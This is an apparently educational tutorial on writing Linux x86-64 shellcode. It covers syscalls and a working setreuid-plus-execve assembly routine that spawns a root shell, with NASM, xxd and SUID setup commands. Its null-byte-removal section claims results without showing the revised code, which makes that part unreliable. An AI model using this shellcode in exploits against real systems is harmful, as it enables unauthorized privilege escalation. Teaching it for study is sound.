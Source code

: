 # ShellCodes
* * *
Shellcode is a set of machine code instructions typically written in assembly language such as x86, designed to be executed directly by a computer's processor. Because assembly's instructions are architecture-specific that restricts the portability of shellcodes among different processors. In general, shellcode focuses on direct manipulation of processor registers, configuring them for various system calls using opcodes. Once the assembly code is crafted to execute the desired operation, then it must be converted into machine code. However, this will not be enough, removing all null bytes is crucial. The reason is that many string operations, such as strcpy(), stop when encountering null bytes.

To better understand shellcodes, let's examine first System Calls (syscall)

## System Calls (syscall)

To invoke functions for tasks like opening system ports or modifying permissions, it's essential to utilize system calls, which serve as a means to manage communication with hardware and access kernel functionality that might not be present in the application's address space. On UNIX-based operating systems, each function is assigned a unique system call number. 

For instacne, when a user-level program needs to access a function beyond its address space, such as setuid(), it must first determine the system call number associated with setuid() function. Then, it triggers an interrupt which signals to the operating system that a request needs attention. The actual numbers assigned to each system call can vary between operating systems. In Linux, for instance, syscall numbers are defined in the kernel headers. One esay way to get the system call number is to use `ausyscall` tool
```sh
# Ubuntu 64-bit architecture
sudo apt install auditd
ausyscall --dump
```

As in the case of most system calls, one or more arguments are necessary. The system call number is loaded into the EAX register, while the arguments intended for the desired function are typically loaded into EBX, ECX, and EDX, following this order. In 64-bit architecture, the arguments for system call are placed in RDI, RSI, RDX, RCX, R8 and R9 in that order.

## Example
- In this example, we will use the appropriate system calls to write a message to the standard output.
```asm
; Ubuntu 64-bit architecture
section .data
    msg db 'System Calls', 0

section .text
    global main

main:
    ; let's write to stdout
    ; ssize_t write(int fildes, const void *buf, size_t nbyte);
	  ; syscall is passed in rax register
    mov rax, 1          ; system call number for write
	
	  ; Function parameters are passed in the registers rdi, rsi, and rdx, respectively.
    mov rdi, 1          ; fildes -> 1 for stdout
    mov rsi, msg        ; buf -> pointer to the message
    mov rdx, 12         ; nbyte -> number of chars in the message
    syscall             ; trigger an interrupt by invoking syscall

    ; syscall to exit
    ; void exit(int status);
    mov rax, 60         ; system call number for exit
	
	  ; One parameter passed in the register rdi
    xor rdi, rdi        ; exit code 0
    syscall             ; trigger an interrupt by invoking syscall
```

- Compilation & Execution
```sh
nasm -f elf64 syscall1.asm
gcc syscall1.o -o syscall1
./syscall1
```

### Note
- In 32-bit x86 systems, the int 0x80 instruction is commonly employed to initiate an interrupt. In 64-bit systems, this is substituted with the syscall instruction.

***

## Creating Shellcode
As a general security best-practices, applications typically drop their privileges whenever possible. To enable our shellcode to call a root shell, we must invoke a function that restores the application's privileges. This can be achieved using the `setreuid()` system call. Therefor, our objective is to create a position-independent assembly code that calls a root shell. 



## Netwide Assembler (NASM)
To assemble our shellcode and extract the machine instructions, we first need to use an assembler. The NASM is an x86 and x86-64 assembler that supports several object file formats, including ELF, Win32, and others. You can specify the object file format with the `-f` switch. Because we need our code to be position-independent, we must NOT link it.

The following code first escalates its privileges by setting the effective user ID to zero and then spawns a shell with the newly acquired privileges using the execve system call. After compiling it, we grant ownership to the root user and enable the SetUID (SUID) permission. This configuration enables our shellcode to showcase the process of reverting ownership to the root user.

```s
; Env: Ubuntu 64-bit architecture
section .data
    msg db '/bin/sh',0

section .text
	global main

main:
; Step 1: Set Effective User ID to zero
; int setreuid(uid_t ruid, uid_t euid)
	mov rax, 0 				; clearing rax
	mov rdi, 0 				; passing argument 0 in rdi to setreuid()
	mov rsi, 0 				; passing argument 0 in rsi to setreuid()
	mov rax, 113 		 ; 113 = 0x71 is the syscall for setreuid() in the current environment
	syscall 					; trigger an interrupt to execute setreuid()

; Step 2: Spawn a shell
; int execve(const char *pathname, char *const _Nullable argv[], char *const _Nullable envp[]);
	mov rax, 0					 ; clearing rax
	push qword [msg]	  ; placing the address /bin/sh onto the stack.
	mov rdi, rsp 			 ; rsp points to the address of /bin/sh on stack, thus we store it in rdi
	push rax						; rax was set to 0, this serves as a null terminator.
	push rdi					  ; rdi is the first argument to execve, it contains the address of /bin/sh.
	mov rsi, rsp			 ; rsi is the second argument to execve, it contains the string /bin/sh.
	mov rdx, 0					; setting Null in the third argument to execve()
	mov rax, 59				  ; store system call number (59 = 0x3B) for execve() in rax
	syscall						  ; trigger an interrupt to execute execve()
```

- Compilation & Execution
```sh
nasm -f elf64 syscall2.s
gcc syscall2.o -o syscall2

# change ownership ans set SUID
sudo chown root:root syscall2
sudo chmod +x syscall2

# execute
./syscall2
```

Looking at the xxd output, it's clear that our shellcode contains a lot of null bytes, which is a problem. In many exploitation scenarios, we often rely on string manipulation functions like strcpy() or gets() to copy data into a buffer. However, when these functions encounter a null byte (0x00), they interpret it as the end of the string, leading to the failure of our shellcode execution.
```sh
# dump machine code
xxd -ps syscall2.o | head
	# -ps display the machine code without any hexadecimal translation.
```

## Removing Null Bytes
Quite a few assembly instructions cause null bytes to reside within your shellcode. For example, if you try to move 10 (0x0a) into eax, it results in '0x0000000a', leaving 3 null bytes. These null bytes again terminate many string operations and break your shellcode. There are tricks to get around this type of issue. Remember that 32-bit registers are 4 bytes, but smaller portions of these registers can be accessed directly. The lower 8-bit of eax, can be accessed directly by referencing the register name al. 

Passing a 0 as an argument to a system call. You will most commonly see the use of the instruction xor eax, eax to zero out a register, as it does not modify the EFLAGS register. When you XOR something with itself, the result is always 0. Another way to zero out a register is to subtract it from itself; for example, sub eax, eax will zero out EAX. You can move an existing register whose value is 0 with the instruction mov eax, ecx. The problem with these instructions is they increase the size of your shellcode much more than they should. Let's check again

```sh
# assemble the code
nasm -f elf64 syscall2.s

# dump machine code
xxd -ps syscall2 | head
	# -ps display the machine code without any hexadecimal translation.
```

After assembling this version with NASM and inspecting the machine code using xxd in base16 format, we find that the null bytes have been successfully eliminated. Additionally, the size of the shellcode has significantly reduced to just 35 bytes. There are also compact instructions, such as "cdq" and "xch," that can help you save space in your code.

## Test Shellcode

```
gcc shellcode_tester.c -o shellcode
sudo chown root:root shellcode
sudo chmod +s shellcode
./shellcode
```
We then assign ownership to root and turn on SUID. This allows our shellcode to demonstrate the restoring of root privileges prior to spawning a shell. After executing shellcode if you run the id command you should get uid=0
